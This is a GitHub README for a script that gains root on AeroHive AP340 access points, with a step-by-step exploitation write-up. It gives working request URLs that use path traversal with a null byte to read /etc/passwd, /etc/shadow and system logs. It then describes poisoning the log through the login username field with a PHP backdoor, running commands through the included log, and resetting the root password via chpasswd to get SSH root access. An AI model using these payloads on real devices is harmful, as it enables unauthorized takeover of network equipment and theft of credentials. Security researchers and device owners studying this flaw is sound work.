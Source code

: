 # aerohive-ap340-root
Python script to change the root password on the AeroHive AP340 with HiveOS < 6.1R5
The result is direct root command line access via /bin/sh rather than the locked down AH CLI.

## Setup
No dependencies required. Just need the IP address of the AP340 and the code will set the root password to "password"

## Recon

I first set about to try and root this device with the hopes of building/installing something like
OpenWrt on it. I have yet to accomplish that as of yet, but I did manage to gain root access via SSH
allowing me to bypass the ah_cli "jail" shell.

As a start, I downgraded the firmware of my AP340 by using the ah_cli to boot into the backup partition which
happened to have an older firmware version. Here the thinking was that I would maximize my chances at finding
an exploitable vuln by having it as out of date as possible.

To start, I did some open source recon and found the following vulnerability listing on exploit-db:

https://www.exploit-db.com/exploits/34038/

"Aerohive version 5.1r5 through 6.1r5 contain two vulnerabilities, one reflective XSS vulnerability and a **limited local file inclusion vulnerability (I was only able to view source from one specific folder, *maybe you can leverage this further)***. 
It's possible earlier version are affected, I was only able to review 5.1r5 briefly, the vendor indicated other version up to 6.1r5 are vulnerable as well."

## Exploitation
Of particular interest was the LFI vulnerability and the tantalizing "maybe you can leverage this further."
With every intent to leverage this further, I tested the example LFI from the exploit-db page:

> http://<IP>/action.php5?_action=get&_actionType=1&_page=php://filter/convert.base64-encode/resource=ManagementAP

This returned the ManagementAP PHP page as promised. Great!
The only problem was that the web server was appending ".php" to any other file that we tried to read.
We can fix this by adding a null byte "%00" to the end of the filename since the web server is running 
an old version of PHP.

Now we can read arbitrary files like /etc/passwd with:
> http://<IP>/action.php5?_action=get&_actionType=1&_page=../../../../../../../../../../etc/passwd%00

We can also see the shadow file with:
> http://<IP>/action.php5?_action=get&_actionType=1&_page=../../../../../../../../../../etc/shadow%00

Great! The web server is running as a privileged user. I tried cracking the hashes for around 30 minutes with John to no avail.
Your mileage may vary. In any case, this was a dead end that I put off till later if I couldn't find another way in.

## Post Exploitation
We can also see the system boot/error logs with:
> http://<IP>/action.php5?_action=get&_actionType=1&_page=../../../../../../../../../../var/log/messages%00

After reading /var/log/messages I noticed that it was logging usernames with something like:

"Failed login for user <username>"

I then read up on some techniques for escalating LFI to RCE and came upon this article:

http://www.hackingarticles.in/exploit-webserver-log-injection-lfi/

I then tested some inputs on the username field of the login for the web server and eventually, the 
/var/log/messages file presented me with a syntax error after entering <?php blah as input.

Success! The web server is interpreting the php tags and throwing errors since I didn't provide valid PHP.
The down side was that I now had a broken /var/log/messages file. A simple reboot and the logs rotated with fresh
data and we were back up and running.

I then pasted a simple PHP command shell into the username field of the web form login.
I used this one: http://snipplr.com/view/72936/simple-php-backdoor-shell/

I entered gibberish as the password, then hit enter.

Browsing to the LFI for /var/log/messages again with the following URL and ...
> http://<IP>/action.php5?_action=get&_actionType=1&_page=../../../../../../../../../../var/log/messages%00&cmd=whoami

Viewing source for the page and searching for "whoami" and we see that it worked! The web server process is running as the root user.

## Privilege Escalation

Now, how to get a reverse shell? There are lots of methods out there for running netcat, telnet, fifo shells, etc.
I chose to go the simple route and just reset the root SSH password with:

> http://<IP>/action.php5?_action=get&_actionType=1&_page=../../../../../../../../../../var/log/messages%00&cmd=echo+root:password+|+/usr/sbin/chpasswd

https://imgur.com/a/YT8Pw

Will change the root password for SSH to "password"

Then logging in with user root and password "password", we get a root shell!

If anyone has any suggestions for building/flashing the device with something like Tomato or OpenWrt, please let me know with an issue request/pull request, etc.

tl;dr the steps are as follows:

1. Poison the log file in /var/log/messages by injecting PHP code into the username field of the login page
2. Call the uploaded PHP shell with the LFI URL, changing the root password for SSH
3. Login with SSH as root using password "password"
